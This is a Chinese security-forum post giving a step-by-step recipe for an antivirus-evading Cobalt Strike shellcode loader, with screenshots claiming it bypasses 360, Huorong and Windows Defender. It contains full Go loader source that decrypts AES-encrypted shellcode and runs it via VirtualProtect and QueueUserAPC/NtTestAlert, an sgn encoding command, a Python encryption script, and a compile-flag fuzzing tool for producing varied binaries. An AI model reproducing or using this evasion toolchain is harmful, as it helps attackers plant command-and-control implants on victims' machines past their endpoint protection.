# cs免杀loader2（bypass360，火绒6.0，defender）-先知社区

> **来源**: https://xz.aliyun.com/news/18194  
> **文章ID**: 18194

---

昨天写的一个，实测过御三家，分享一下吧

老规矩，我们先看效果

​

# 效果展示

## 1.bypass360

测试时间是2025年6月6日 0点07分



## 2.bypass火绒6.0



## 3.bypass defender



先上线挂10分钟，看杀不杀。

（开始时间是2025年6月6日0:16）



再等10分钟



没掉线，说明过了

​

## 2.loader2的加载器

直接放加载器好吧 兄弟们

```
package main

import (
	"crypto/aes"
	"crypto/cipher"
	"fmt"
	"log"
	"syscall"
	"unsafe"
)

// decryptAES 使用AES-CTR模式解密数据
func decryptAES(key, encryptedData []byte) ([]byte, error) {
	// 1. 创建AES cipher
	block, err := aes.NewCipher(key)
	if err != nil {
		return nil, fmt.Errorf("aes.NewCipher failed: %v", err)
	}

	// 2. 检查最小长度（8字节nonce）
	if len(encryptedData) < 8 {
		return nil, fmt.Errorf("encrypted data too short (min 8 bytes)")
	}

	// 3. 提取nonce（前8字节）和密文
	nonce := encryptedData[:8]
	ciphertext := encryptedData[8:]

	// 4. 创建16字节IV（nonce + zero counter）
	iv := make([]byte, 16)
	copy(iv, nonce) // 前8字节为nonce，后8字节保持为0

	// 5. 创建CTR流解密器
	stream := cipher.NewCTR(block, iv)

	// 6. 解密数据
	plaintext := make([]byte, len(ciphertext))
	stream.XORKeyStream(plaintext, ciphertext)

	return plaintext, nil
}

func main() {

	var (
		aesKey = []byte{0x20, 0xed, 0x08, 0x47, 0x3c, 0x28, 0x78, 0xd4, 0xeb, 0xd1, 0x94, 0xc9,
			0x82, 0x66, .....}
		encryptedData = []byte{0xce, 0xad, 0x7e, 0x63, 0xcd, 0x7e, 0x95, 0xdf, 0x29, 0xe3, 0x59, 0x6f,
			0x90, 0x8e, 0x49, 0x0c, 0x6c, 0xbb, 0x06, 0x85, 0x33, 0x1e, 0x88, 0x2e,
			0xfe, 0x46, ....}
	)
	decrypted, err := decryptAES(aesKey, encryptedData)
	if err != nil {
		log.Fatalf("解密失败: %v", err)
	}
	kernel32 := syscall.NewLazyDLL("kernel32.dll")
	virtualProtect := kernel32.NewProc("VirtualProtect")
	getProcAddress := kernel32.NewProc("GetProcAddress")
	getModuleHandle := kernel32.NewProc("GetModuleHandleA")
	queueUserAPC := kernel32.NewProc("QueueUserAPC")
	getCurrentThread := kernel32.NewProc("GetCurrentThread")
	var oldProtect uint32

	// 修改 shellcode 所在内存区域的保护属性，允许执行
	_, _, _ = virtualProtect.Call(
		uintptr(unsafe.Pointer(&decrypted[0])),
		uintptr(len(decrypted)),
		syscall.PAGE_EXECUTE_READWRITE,
		uintptr(unsafe.Pointer(&oldProtect)),
		uintptr(unsafe.Pointer(&oldProtect)),
	)

	// 获取 NtTestAlert 函数地址
	ntdllHandle, _, _ := getModuleHandle.Call(uintptr(unsafe.Pointer(syscall.StringBytePtr("ntdll.dll"))))
	ntTestAlertAddr, _, _ := getProcAddress.Call(ntdllHandle, uintptr(unsafe.Pointer(syscall.StringBytePtr("NtTestAlert"))))

	// 向当前线程的 APC 队列添加一个执行 shellcode 的任务
	currentThread, _, _ := getCurrentThread.Call()
	_, _, _ = queueUserAPC.Call(
		uintptr(unsafe.Pointer(&decrypted[0])),
		currentThread,
		0,
	)

	// 调用 NtTestAlert，触发 APC 队列中的任务执行
	syscall.Syscall(ntTestAlertAddr, 0, 0, 0, 0)

}

```

# 3.具体制作过程

下面就讲一下怎么制作这个免杀马吧，因为有些加解密需要用到脚本，每一步我也会把脚本贴出来的。

​

## 1.申请raw原生格式的payload，再进行sgn加密

这个有阶段还是无阶段的都可以，当然无阶段的更好免杀，我们演示为了方便还是申请有阶段的吧



选择raw格式



放在sgn这个工具目录下就可以了

​

执行这个命令进行加密

sgn -a 64 -c 1 -o pd.bin payload\_x64.bin



欧克，这时候把我们产生的这个pd.bin文件，拿去给aes加密的python脚本，他会生成加密和加密密钥

​

aesencode.py 加密脚本

​

```
import os
from Crypto.Cipher import AES

def encrypt_file_to_go_bytearray(input_file):
   
    
    # 1. 读取原始二进制文件
    with open(input_file, 'rb') as f:
        raw_data = f.read()

    # 2. 生成随机AES密钥（32字节用于AES-256）
    aes_key = os.urandom(32)
    
    # 3. 生成随机nonce（8字节）
    nonce = os.urandom(8)

    # 4. 创建AES-CTR加密器
    cipher = AES.new(aes_key, AES.MODE_CTR, nonce=nonce)

    # 5. 加密数据
    ciphertext = cipher.encrypt(raw_data)

    # 6. 组合nonce和密文
    encrypted_data = nonce + ciphertext

    # 7. 生成Go语言格式的输出
    def format_bytearray(data, var_name):
        lines = []
        line = f"{var_name} := []byte{{"
        for i, byte in enumerate(data):
            if i > 0 and i % 12 == 0:
                lines.append(line)
                line = "    "
            line += f"0x{byte:02x}, "
        line = line.rstrip(", ") + "}"
        lines.append(line)
        return "
".join(lines)

    # 格式化输出
    go_encrypted = format_bytearray(encrypted_data, "encryptedData")
    go_key = format_bytearray(aes_key, "aesKey")

    return go_encrypted, go_key

if __name__ == "__main__":
    input_file = "pd.bin"  # 替换为你的.bin文件路径
    
    try:
        encrypted_data, aes_key = encrypt_file_to_go_bytearray(input_file)
        
        print("// 加密后的数据（复制到Go代码中使用）:")
        print(encrypted_data)
        print("
// AES密钥（解密时需要，请妥善保存）:")
        print(aes_key)
        
        print("
// 完整的Go解密数据变量定义:")
        print(f"var (
    {aes_key}
    {encrypted_data}
)")
        
    except Exception as e:
        print(f"加密失败: {str(e)}")
```



我们复制最下面这一部分

// 完整的Go解密数据变量定义:

他已经定义好了的

直接复制进我们的loader里面

注意删一下这个 ：号



​

​

尝试运行 上线成功



然后的话，就是批量编译 fuzz一下go的编译参数了

​

利用loader1我分享的那个脚本

这里再最后写一遍，因为一直这么写 感觉在水文章

​

```
package main

import (
	"flag"
	"fmt"
	"math/rand"
	"os"
	"os/exec"
	"path/filepath"
	"strings"
	"time"
)

const (
	resultDir    = "result"
	randomLength = 8
)

var buildConfigs = [][]string{
	{},
	{"-race"},
	{"-trimpath"},
	{"-ldflags", "-w"},
	{"-ldflags", "-s"},
	{"-ldflags", "-H=windowsgui"},
	{"-ldflags", "-w -s"},
	{"-trimpath", "-ldflags", "-w -s"},
	{"-ldflags", "-w -s -H=windowsgui"},
	{"-trimpath", "-ldflags", "-w -s -H=windowsgui"},
}

func main() {
	sourceFile := flag.String("f", "", "要编译的Go源文件路径")
	flag.Parse()

	if *sourceFile == "" {
		fmt.Println("必须使用 -f 参数指定源文件")
		flag.Usage()
		return
	}

	os.MkdirAll(resultDir, os.ModePerm)
	rand.Seed(time.Now().UnixNano())

	for _, params := range buildConfigs {
		exeName := generateRandomName() + ".exe"
		outputPath := filepath.Join(resultDir, exeName)

		cmdArgs := buildCommand(params, outputPath, *sourceFile)
		fmt.Printf("编译命令: go %s
", strings.Join(cmdArgs, " "))

		if err := compile(cmdArgs); err != nil {
			fmt.Printf("[-] 编译失败: %v
", err)
		} else {
			fmt.Printf("[+] 编译成功: %s

", outputPath)
		}
	}
}

func buildCommand(params []string, output, source string) []string {
	return append([]string{"build", "-o", output}, append(params, source)...)
}

func compile(args []string) error {
	cmd := exec.Command("go", args...)
	if output, err := cmd.CombinedOutput(); err != nil {
		return fmt.Errorf("%v
%s", err, string(output))
	}
	return nil
}

func generateRandomName() string {
	const chars = "yanami123456789"
	b := make([]byte, randomLength)
	for i := range b {
		b[i] = chars[rand.Intn(len(chars))]
	}
	return string(b)
}

```

我已经编译好了，名字就叫yanami

​

使用方法

yanami.exe -f aes\_apc.go

​



编译成功。

​

# 结尾

希望大佬们能多多理解，新手小白发一些loader，为简历加点分。有什么问题 希望大佬们能多多指点一下√
